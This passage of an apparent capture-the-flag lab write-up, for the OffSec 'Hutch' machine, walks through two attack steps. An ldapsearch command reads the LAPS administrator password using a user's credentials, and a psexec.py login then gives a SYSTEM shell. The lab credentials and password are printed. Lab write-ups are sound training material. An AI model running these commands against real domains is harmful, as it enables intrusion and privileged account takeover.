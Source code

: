 #### -I attempt to query LDAP for the local administrator password by typing "ldapsearch -x -H 'ldap://192.168.142.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd" and find administrators password is ",G4$4Yk-2n&x(]":

![](Images/Pasted%20image%2020221019012818.png)

#### - Now that I have valid aministrator credentials I login with psexec.py by typing "python psexec.py hutch.offsec/administrator:',G4$4Yk-2n&x(]'@192.168.142.122" and receive a shell as nt authority\system:

![](Images/Pasted%20image%2020221019012951.png)

---

